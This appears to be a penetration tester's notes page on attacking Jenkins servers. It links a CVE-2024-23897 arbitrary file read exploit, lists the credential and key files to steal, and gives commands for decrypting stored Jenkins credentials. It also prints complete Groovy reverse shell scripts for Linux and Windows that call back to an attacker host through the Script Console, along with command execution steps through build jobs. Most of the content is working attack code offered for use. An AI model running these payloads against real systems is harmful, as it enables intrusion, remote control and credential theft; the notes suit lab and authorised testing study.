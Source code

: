 ## Arbitrary file read
https://github.com/godylockz/CVE-2024-23897

Some important files
```
$JENKINS_HOME/users/users.xml
	$JENKINS_HOME/users/<user_string>/config.xml
		may reveal hash of user!!!
_____________________________________________________

$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
```
NOTE: Decrypting the creds found likely requires all three, and a shell of some sort to retrieve the files, OR jenkins /script access
See [[Builder]] as an example

Jenkins credential decryptor
https://github.com/hoto/jenkins-credentials-decryptor
```
git clone https://github.com/hoto/jenkins-credentials-decryptor.git

make build

bin/jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c credentials.xml -o text
```

## Command Execution
#### Reverse Shells via Script Console
Dashboard > Manage Jenkins > Script Console
```bash
# Groovy script for reverse shell (Linux):
# https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell

String host="10.10.14.227";
int port=80;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# Groovy script for reverse shell (Windows):

String host="your_attacker_ip"; int port=4444; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


# println
println "cmd.exe /c whoami".execute().txt
println "powershell.exe -e <base64_rev_shell>".execute().txt
```
Then execute and catch the shell with a listener

#### Command Execution via Jobs
If Console is not present but Build is, we can create jobs which will execute

Build Envirnoment > Add build step > Execute Windows batch command
Command
```
cmd /c whoami
```
Save
Build Now
Click the build 
Go to "Console Output"
This reveals the output of the commands we issue

